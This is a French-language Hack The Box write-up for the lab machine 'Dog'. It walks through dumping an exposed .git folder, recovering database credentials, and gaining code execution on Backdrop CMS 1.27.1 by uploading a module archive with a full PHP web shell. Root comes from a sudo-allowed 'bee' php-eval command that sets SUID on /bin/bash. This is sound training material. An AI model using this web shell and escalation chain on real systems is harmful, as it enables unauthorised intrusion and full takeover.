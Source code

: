 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Identifiants de l'app web dans le code source extrait via GitHack + RCE via l'upload d'une archive.\
Root: Misconfiguration sudo du CLI bee.

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## Utilisateur
### Dump git + RCE via shell.tar

Le scan nmap a souligné que le dossier `.git` de l'application web est exposé.\
Nous utilisons [GitHack](https://github.com/lijiejie/GitHack) afin d'obtenir une partie du code source.

{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
Dans ces fichiers, nous pouvons trouver un username `tiffany` et un mot de passe `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Ces identifiants nous permettent de nous connecter à l'application web `http://dog.htb` en tant que `tiffany`.\
Nous pouvons trouver la version de `Backdrop` utilisée via l'onglet `Reports` puis `Status report`.\
Cette version `1.27.1` est vulnérable à une RCE.
![](Backdrop_version.png)

Cet [exploit](https://www.exploit-db.com/exploits/52021) pourrait fonctionner mais, notre instance de backdrop n'autorise pas l'installation de modules en utilisant des archives `.zip`.\
Nous pouvons trouver cette information via l'onget `Functionality` puis `Install new modules`.
![](Backdrop_zip.png)

Nous allons créer notre propre archive `.tar` en utilisant le code HTML/PHP et contenu de `shell.info` fournis dans l'exploit.\
Ensuite, sur la page d'installation des modules, nous uploadons notre archive.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Même si notre nouveau module n'est pas listé dans la liste des modules de l'application web, nous pouvons y accéder via `/modules/shell/shell.php` comme spécifié dans l'[exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

Dans le dossier `/home`, on remarque deux utilisateurs `jobert` et `johncusack`.
![](Backdrop_users.png)\
En réutilisant le mot de passe `BackDropJ2024DS2024` précédemment trouvé, nous pouvons nous connecter à la machine via SSH en tant que `johncusack` et récupérer le flag `user.txt`.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Misconfiguration sudo
On remarque que `johncusack` peut utiliser la CLI `bee` en tant que `root` grace à sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}
Cette CLI "permet aux developpeurs d'intérargir avec des sites Backdrop" comme spécifié sur leur [GitHub](https://github.com/backdrop-contrib/bee). Comme indiqué dans la documentation, nous pouvons éxécuter du code PHP.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

Premièrement, nous allons nous déplacer dans `/var/www/html` pour que `bee` puisse intérargir avec notre application backdrop.\
Ensuite, nous allons ajouter le flag SUID à `/bin/bash` afin d'obtenir un shell root et récupérer le flag `root.txt`.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Ressources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [RCE exploit - Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)